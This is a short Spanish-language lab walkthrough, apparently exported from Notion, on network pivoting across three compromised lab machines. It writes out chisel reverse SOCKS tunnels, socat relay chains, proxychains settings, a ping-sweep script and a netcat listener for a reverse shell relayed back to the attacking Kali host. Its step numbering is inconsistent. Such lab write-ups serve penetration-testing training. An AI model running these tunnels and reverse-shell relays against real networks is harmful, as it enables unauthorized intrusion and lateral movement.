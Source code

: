 # Little Pivoting Example

Propietario: Adrian Gisbert Cabello

1. Abrimos instancia de kali con server chisel: `./chisel server --reverse -p 33`

![Untitled](Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb/Untitled.png)

1. Abrimos nueva instancia kali y rompemos la primera máquina
    
    2.1. Hacemos un escaneo de la red con el siguiente script:
    
    `#!/bin/bash for host in $(seq 1 254); do        timeout 1 bash -c "ping -c 1 20.20.20.$host &>/dev/null" && echo "[+] HOST - 20.20.20.$host"done; wait`
    
    2.2. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina1. Nos pasamos los archivos socat, chisel y el script de hosts desde la kali a la maquina1
    
2. hacemos un `hostname -I` para ver nuevas interfaces de red y usamos el script para ver nuevos equipos en la segunda interfaz de red
    
    3.1. activamos socat en la primera maquina como cliente: `./chisel client 10.10.10.1:33 R:socks`
    
    ![Untitled](Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb/Untitled%201.png)
    
    3.2. En la maquina atacante añadimos en el archivo `/etc/proxychains4.conf` lo siguiente: `socks5 127.0.0.1:1080`
    
    ![Untitled](Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb/Untitled%202.png)
    
    3.3. Nos aseguramos de que quede descomentada la linea de `dynamic` y comentada la de `strict`
    
    ![Untitled](Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb/Untitled%203.png)
    
3. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina2. Nos pasamos los archivos socat, chisel y el script de hosts desde la maquina1 a la maquina2
    
    4.1. Con el comando hostname -I y el script de hosts encontramos la máquina3
    
4. En la maquina1 activamos socat contra la máquina kali atacante: `./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:33`
    
    5.1. En la maquina2 conectamos chisel en modo cliente contra la maquina1 al puerto 1111: `./chisel client 20.20.20.2:1111 R:1111:socks`
    
    5.2. En la maquina atacante añadimos en el archivo `/etc/proxychains4.conf` lo siguiente: `socks5 127.0.0.1:1111` (preferiblemente antes de la linea del otro socks5)
    
5. Hacemos escaneo nmap, la rompemos y conseguimos acceso a la maquina3. Nos pasamos los archivos socat, chisel y el script de hosts desde la maquina2 a la maquina3
    
    6.1. Con el comando hostname -I y el script de hosts no encontramos nada más.
    
    6.2. En la maquina2 nos ponemos en escucha con socat a traves del puerto 443 (que es el que nos vendrá la reverseshell): ./socat TCP-LISTEN:443,fork TCP:20.20.20.2:442
    
    6.3. En la maquina1 nos ponemos en escucha con socat a traves del puerto 442 (que es el que nos vendrá de la maquina1): ./socat TCP-LISTEN:442,fork TCP:10.10.10.1:441
    
    6.4. En la maquina kali atacante nos ponemos en escucha con netcat por el puerto 441: nc -lvnp 441
    
    6.5. En la maquina3 enviamos la reverseshell a la maquina2 (en la interfaz de red que está con la maquina3) por el puerto 443.
    
    6.6. En la maquina kali ya tenemos conexión directa con la maquina3
    

Así está bien ordenado:

![Untitled](Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb/Untitled%204.png)